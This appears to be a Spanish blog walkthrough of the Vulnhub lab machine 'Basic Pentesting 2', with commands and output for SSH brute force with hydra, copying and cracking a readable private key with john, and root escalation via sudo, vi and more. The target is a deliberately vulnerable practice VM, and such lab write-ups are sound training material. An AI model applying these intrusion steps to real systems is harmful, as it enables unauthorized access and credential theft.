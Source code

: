 ```yaml
---
title: "Vulnhub #1: CSEC Basic Pentesting 2"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Descubrimiento de hosts

Usamos `sudo netdiscover` para descubrir los host en la red.

Estas son las dos máquinas del laboratorio:

```plaintext
Kali(VM):     192.168.0.16
Victima:      192.168.0.17
```

## Reconocimiento

El escaneo de servicios nos arroja el siguiente resultado:

```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

Si lanzamos `nmap -sT -sV -A -vvv 192.168.0.17` no obtenemos ninguna vulnerabilidad explotable.

Sin embargo, podemos intentar enumerar usuarios de samba con `enum4linux <ip>`
Obtenemos dos usuarios:

```plaintext
kay
jan
```

## Explotación
### SSH

Lanzamos hydra con rockyou.txt usando `hydra -l kay -P ./rockyou.txt ssh://192.168.0.17`

La contraseña es `armando`

Una vez dentro podemos hacer `ls -lisaR /home` para analizar las carpetas de usuarios.

Ahi podemos ver que en la carpeta .ssh del usuario kay tiene un `id_rsa` con permisos globales de lectura.

```
/home/kay/.ssh:
total 20
798691 4 drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
786930 4 drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
798921 4 -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
798917 4 -rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
798918 4 -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:~$ cat /home/kay/.ssh/id_rsa
```

### Usando una clave robada

Podemos copiar el archivo y usarlo para intentar entrar en la maquina con `ssh kay@ip -i clave-robada`

Whooops! Nos devuelve esto:

```plaintext
Permissions 0664 for 'id_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_key": bad permissions
```

Debemos dar permisos de lectura y escritura para usuario y grupo con `chmod 400 clave-robada`

Ahora nos pide la contraseña de la clave.

Esa contraseña está DENTRO de nuestro archivo `clave-robada`.

Convierte la clave a un formato que john entienda con `ssh2john clave-robada > clave-formato-john`

Una vez listo podemos romper la contraseña con `john clave-formato-john --wordlist=rockyou.txt`

```plaintext
beeswax          (clave-robada)     
1g 0:00:00:00 DONE (2024-09-17 06:09) 12.50g/s 1034Kp/s 1034Kc/s 1034KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Si hacemos `ssh kay@ip -i clave-robada`

Nos pedirá la contraseña `beeswax` descubierta antes.

Estamos dentro!

¿Que podemos hacer ahora?

### Escalando privilegios

Podemos volver a usar `ls -lisaR /home` para listar de nuevo por si hubiera cosas que no hemos visto antes

Tenemos un `pass.bak` que podemos leer:

```plaintext
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Si intentamos usar `sudo -l` para ver que podemos lanzar nos pedirá una contraseña.

Podemos pasar esa contraseña y ver que podemos lanzar `sudo su`

```plaintext
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Tras lanzarlo, ya somos `root`.


#### Otras formas de conseguir `root`:

##### sudo vi

```plaintext
sudo vi
Escribimos :!sh y nos devuelve una consola root
```

##### more

```plaintext
Escribimos un archivo relativamente largo y lo abrimos con `more` y tenemos algo similar a vi
Con !sh podremos abrir otra consola.
```
